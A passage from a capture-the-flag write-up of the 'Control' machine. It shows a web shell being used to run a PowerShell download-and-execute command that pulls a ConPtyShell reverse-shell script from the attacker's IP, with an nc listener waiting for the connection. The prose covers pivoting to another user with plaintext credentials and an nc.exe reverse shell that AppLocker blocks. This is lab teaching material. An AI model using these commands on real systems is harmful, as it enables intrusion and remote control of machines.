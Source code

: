> **Victime Machine**:

```cmd
whoami
hostname
ipconfig
```

> **Attacker Machine**:

```bash
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/refs/heads/master/Invoke-ConPtyShell.ps1
nvim Invoke-ConPtyShell.ps1
cat Invoke-ConPtyShell.ps1 | tail -n 2
python3 -m http.server 80
nc -nlvp 443
# http://10.10.10.167/uploads/cmd.php?cmd=powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-ConPtyShell.ps1')
```

<br />
<img src="{{ site.img_path }}/control_writeup/Control_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/control_writeup/Control_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With the first enumeration commands I find no special privileges that allow me to **Escalate privileges** or perform **user pivoting**, there are only two system users in addition to the typical Windows system accounts. But as I have the clear text password of **Hector's account** I try to migrate to this account using a **[script block](https://stackoverflow.com/questions/21345314/run-scriptblock-with-different-credentials){:target="_blank"}**, after correcting a small error in the declaration of the ```$username``` variable, I can execute commands impersonating the user **Hector**. I transfer to the target machine `nc.exe` to send a **Reverse Shell** to my attacker machine, but when I try to establish the connection I'm informed of a **permissions issue**, it is very likely that there are policies defined with **AppLocker** that are preventing me from doing so.

> A **[script block](https://stackoverflow.com/questions/21345314/run-scriptblock-with-different-credentials){:target="_blank"}** is a reusable **piece of code**, often enclosed in curly braces ```{}``` that can be executed as a single unit. In **PowerShell**, it's a fundamental concept for creating functions, handling events, and more. **Script blocks** can contain multiple statements or expressions, and they can be stored in variables, passed as arguments, or used as part of other commands like **Where-Object** or **ForEach-Object**.
